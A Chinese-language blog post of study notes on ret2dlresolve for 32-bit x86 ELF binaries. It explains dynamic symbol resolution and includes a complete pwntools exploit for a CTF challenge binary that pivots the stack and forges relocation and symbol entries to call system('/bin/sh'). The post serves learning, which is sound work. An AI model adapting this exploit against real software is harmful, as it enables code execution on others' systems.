# 2021 09 02 Ret2dlresolve学习记录


花了一个上午时间，看了一下ret2dlresolve的基本原理与基本的利用过程。觉得步骤与相关细节要素还是蛮多的，为防止今后某一天再用到的时候忘得干干净净，特此记录一些我个人的理解，加深印象。

<!--more-->

## 0x00 dlresolve原理

以下内容是32位x86平台相关，64位的ret2dlresolve我还没看。

这一部分内容需要记住的就是符号解析的过程，也是dlresolve执行的过程，同时也是ret2dlresolve生效的核心原理。

在符号解析过程中，有三种数据结构：`ELF32_Rel`、`ELF32_sym`、`.dynstr中的字符串`，分别位于`.rel.plt`、`.dynsym`、`.dynstr`节（section），查看这些节的命令为

```bash
readelf -S elf_name
```

在程序第一次调用某个函数时，关于plt处指令以及push操作什么的就不细说了，我认为整个流程大致可以这么理解：

- `func@plt`处的指令相当于先push一个`offset`值，然后调用`plt[0]`处的指令，这条指令相当于执行`_dl_runtime_resolve(link_map_obj, reloc_index)`，这里的`reloc_index`就是前面`func@plt`push的`offset`

- 接下来就是三步走了，从函数原型`_dl_runtime_resolve(link_map_obj, reloc_index)`出发，根据`reloc_index`（相对于`.rel.plt`的字节偏移量，单位：字节）找到`.rel.plt`中的`ELF32_Rel`对象（大小为8字节），其中记录了一个`r_info`
- 再根据`r_info`（相对于`.dynsym`的索引，单位：0x10字节）找到`.dynsym`中的`ELF32_sym`类型对象（大小为0x10字节）
- 再根据`ELF32_sym`中的`st_name`字段（相对于`.synstr`的字节偏移量，单位：字节），找到`.dynstr`中的字符串，也就是函数名（正常执行流程是这样的），然后dlresolve从libc中查找，再计算实际地址，将其填入`ELF32_Rel`对象中的`r_offset`字段...

整个流程概括起来就是，`func@plt`给`_dl_runtime_resolve`传参数，`_dl_runtime_resolve`根据其参数去查询上面的那几个表获取函数名称，然后对libc进行解析，获取实际地址，写入got表。

## 0x01 攻击方法

感觉很多题都可以栈迁移，再加上如果`.bss`段可写的话，我们就可以控制将函数栈迁移到自己构造的栈上。

 于是，最常规的攻击步骤就是：

- 栈迁移，然后调用`plt[0]`处指令
- 控制栈上的参数（对于`_dl_runtime_resolve`而言），以及想要调用的函数的参数（比如`system`）
- 再在栈上构造对应该参数的`ELF32_Rel`类型对象
- 再在栈上构造对应`ELF32_Rel`中`r_info`的`ELF32_sym`类型对象
- 再在栈上构造对应于`ELF32_sym`中`st_name`的字符串

所以一个典型的exp为：

```python
from pwn import *
elf = ELF('./parelro_x86')
offset = 112
read_plt = elf.plt['read']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b # ROPgadget --binary parelro_x86 | grep 'pop ebp ; ret'
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
plt_0 = 0x08048380 # objdump -d -j .plt bof  执行 <push link_map，jmp dl_resolve>
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof

# 栈迁移的目的地
base_stage = bss_addr + stack_size

index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278

# fake_sym_addr 地址按照0x10字节对齐
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align

index_dynsym = (fake_sym_addr - dynsym) // 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7 # 要满足：ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT，即最低字节要为7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr # 加0x10因为Elf32_Sym的大小为0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)


r = process('./parelro_x86')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = b'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = b"/bin/sh"

# stage3: 
# 栈迁移，调plt[0]，传入伪造的 index_offset，指向我们自定义的.rel.plt表项内容
# 并且控制r_info，指向我们伪造的.dynsym表项；再控制.dynsym表项中的st_name，指向我们控制的.dynstr表项内容
# --------> base_stage
payload2 = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += b'AAAA'
payload2 += p32(base_stage + 80) # 对应system('/bin/sh')
payload2 += p32(0xdeadbeef) # 后面的2个参数不需要了
payload2 += p32(0xdeadbeef)
# (base_stage+28)的位置
payload2 += fake_reloc
# (base_stage+36)的位置
payload2 += b'B' * align
# (fake_sym_addr)的位置
payload2 += fake_sym
payload2 += b"system\x00"
payload2 += b'A' * (80 - len(payload2))
# base_stage + 80
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))
# payload2结束，刚好100字节

r.sendline(payload2)
r.interactive()
```

写一遍下来，感觉在没有完完全全弄透彻的情况下，通过文字描述清晰还是比较难的，但也只能先这样了:no_mouth:



## 参考链接：

- ctf竞赛权威指南(pwn篇) 10.6 ret2dl-resolve
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/) （复现平台：ubuntu16）
- [CTF Wiki: ret2dlresolve](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/ret2dlresolve/)


